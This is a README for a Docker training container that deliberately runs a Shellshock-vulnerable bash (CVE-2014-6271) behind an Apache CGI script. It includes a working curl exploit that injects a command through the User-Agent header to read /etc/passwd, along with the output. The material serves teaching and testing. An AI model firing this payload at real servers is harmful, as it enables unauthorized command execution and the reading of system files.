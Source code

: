 # Vulnerability as a Service - CVE 2014-6271
A Debian (Buster) Linux system with a vulnerable version of bash and a web application to showcase CVS-2014-6271, a.k.a. Shellshock.

# Overview
This docker container is based on Debian Buster and has been modified to use a vulernable version of Bash (bash_4.2:2b:dfsg-0.1).

A web application is available via Apache 2 and serves a CGI script which runs shell commands.

# Usage
Install the container with `docker pull hmlio/vaas-cve-2014-6271`

Run the container with a port mapping `docker run -d -p 8080:80 hmlio/vaas-cve-2014-6271`

You should be able to access the web application at http://your-ip:8080/.

# Exploitation
The web application/vulnerable bash version can be exploited as shown below:

```sh
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

# Credits
The concept and the web application are heavily inspired by the VulnHub VM "Sokar", created by rasta_mouse.
For further details please see <a href="https://www.vulnhub.com/entry/sokar-1,113/" target="_blank">https://www.vulnhub.com/entry/sokar-1,113/</a>.
